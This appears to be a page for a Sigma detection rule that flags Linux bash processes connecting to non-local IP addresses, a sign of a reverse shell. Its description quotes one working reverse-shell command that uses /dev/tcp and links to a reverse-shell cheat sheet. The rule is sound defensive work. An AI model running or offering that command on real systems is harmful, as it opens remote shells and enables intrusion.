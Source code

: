 ```yaml
---
title: "Linux Reverse Shell Indicator"
status: "test"
created: "2021/10/16"
last_modified: "2022/12/25"
tags: [execution, t1059_004, detection_rule]
logsrc_product: "linux"
logsrc_service: ""
level: "critical"
---
```


## Linux Reverse Shell Indicator

### Description

Detects a bash contecting to a remote IP address (often found when actors do something like 'bash -i >& /dev/tcp/10.0.0.1/4242 0>&1')

```yml
title: Linux Reverse Shell Indicator
id: 83dcd9f6-9ca8-4af7-a16e-a1c7a6b51871
status: test
description: Detects a bash contecting to a remote IP address (often found when actors do something like 'bash -i >& /dev/tcp/10.0.0.1/4242 0>&1')
references:
    - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/d9921e370b7c668ee8cc42d09b1932c1b98fa9dc/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
author: Florian Roth (Nextron Systems)
date: 2021/10/16
modified: 2022/12/25
tags:
    - attack.execution
    - attack.t1059.004
logsource:
    product: linux
    category: network_connection
detection:
    selection:
        Image|endswith: '/bin/bash'
    filter:
        DestinationIp:
            - '127.0.0.1'
            - '0.0.0.0'
    condition: selection and not filter
falsepositives:
    - Unknown
level: critical

```
